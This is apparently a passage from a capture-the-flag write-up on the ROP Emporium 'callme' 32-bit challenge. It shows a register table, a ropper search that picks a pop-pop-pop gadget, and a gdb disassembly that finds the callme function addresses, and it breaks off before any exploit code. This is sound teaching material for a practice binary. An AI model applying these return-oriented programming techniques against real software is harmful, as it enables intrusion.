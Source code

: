 ```
|   r8            |     r8d       |     r8w       |     r8b    |
|   r9            |     r9d       |     r9w       |     r9b    |
|   r10           |     r10d      |     r10w      |     r10b   |
|   r11           |     r11d      |     r11w      |     r11b   |
|   r12           |     r12d      |     r12w      |     r12b   |
|   r13           |     r13d      |     r13w      |     r13b   |
|   r14           |     r14d      |     r14w      |     r14b   |
|   r15           |     r15d      |     r15w      |     r15b   |
+-----------------+---------------+---------------+------------+

```


So basically since we're passing in 3 arguments, the registers needed should pop 3 values off the stack

I can get that with ropper 

```
┌──(mark㉿haxor)-[~/…/Challs/RopEmperium/callme/32bits]
└─$ ropper --file callme32 --search "pop"    
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme32
0x080487fb: pop ebp; ret; 
0x080487f8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x080484ad: pop ebx; ret; 
0x080487fa: pop edi; pop ebp; ret; 
0x080487f9: pop esi; pop edi; pop ebp; ret; 
0x08048810: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret; 
0x080486ea: popal; cld; ret; 
```

Seems `0x080487f9: pop esi; pop edi; pop ebp; ret; ` will work 

I'll get the corresponding callme addresses using gdb

```
└─$ gdb -q callme32
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from callme32...
(No debugging symbols found in callme32)
gef➤  disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804874f <+0>:     push   ebp
   0x08048750 <+1>:     mov    ebp,esp
   0x08048752 <+3>:     sub    esp,0x8
   0x08048755 <+6>:     sub    esp,0x4
   0x08048758 <+9>:     push   0x6
   0x0804875a <+11>:    push   0x5
   0x0804875c <+13>:    push   0x4
   0x0804875e <+15>:    call   0x80484e0 <callme_three@plt>
   0x08048763 <+20>:    add    esp,0x10
   0x08048766 <+23>:    sub    esp,0x4
   0x08048769 <+26>:    push   0x6
   0x0804876b <+28>:    push   0x5
   0x0804876d <+30>:    push   0x4
   0x0804876f <+32>:    call   0x8048550 <callme_two@plt>
   0x08048774 <+37>:    add    esp,0x10
   0x08048777 <+40>:    sub    esp,0x4
   0x0804877a <+43>:    push   0x6
   0x0804877c <+45>:    push   0x5
   0x0804877e <+47>:    push   0x4
```